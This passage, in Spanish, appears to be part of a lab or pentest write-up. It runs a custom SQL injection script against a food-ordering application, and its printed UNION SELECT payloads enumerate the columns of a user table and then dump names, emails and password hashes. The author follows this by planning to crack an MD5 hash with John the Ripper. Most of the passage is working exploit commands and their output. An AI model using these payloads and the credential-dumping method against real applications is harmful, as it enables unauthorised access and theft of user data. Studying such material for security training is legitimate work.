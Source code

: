 ### Columnas

---

```bash
 python3 foodOrderSQLi_content.py 192.168.100.10 -q fos user_info
(+) Consulta SQL usada: 1 UNION ALL SELECT 1,2,3,4,5,6,CONCAT('aca_esta_el_leak:',(SELECT column_name FROM information_schema.columns WHERE table_schema IN (0x666f73) AND table_name IN (0x757365725f696e666f) LIMIT 7,1)),8,9,10,11-- - 

+------------------------------+
| * Columnas - fos.user_info * |
+------------------------------+
| user_id                      |
| first_name                   |
| last_name                    |
| email                        |
| password                     |
| mobile                       |
| address                      |
+------------------------------+
```

Notamos un campo **password**, otro de **email** y otros de nombres, extraigamos su contenido.

### Información

---

```bash
 python3 foodOrderSQLi_content.py 192.168.100.10 -q fos user_info first_name,last_name,email,password
(+) Consulta SQL usada: 1 UNION ALL SELECT 1,2,3,4,5,6,CONCAT('aca_esta_el_leak:',(SELECT CONCAT(first_name,'£',last_name,'£',email,'£',password) FROM fos.user_info LIMIT 2,1)),8,9,10,11-- - 

+------------+-----------+-------------------+--------------------------------------------------------------+
| first_name | last_name | email             | password                                                     |
+------------+-----------+-------------------+--------------------------------------------------------------+
| James      | Smith     | jsmith@sample.com | 1254737c076cf867dc53d60a0364f38e                             |
| Claire     | Blake     | cblake@mail.com   | $2y$10$QYX8P9KwBKXunMEE4I5hVO/hO9pxUU/aswTlf.v.Uy1CNDEabTafS |
+------------+-----------+-------------------+--------------------------------------------------------------+
```

Ojito, tenemos dos credenciales, una contraseña en lo que parece ser **MD5** (cifrado obsoleto) y otra en **bcrypt** (más difícil de crackear), intentemos romper inicialmente la de **MD5** a ver si nos sirve para alguno de los logins iniciales.

La guardamos en un archivo y con **John The Ripper**:
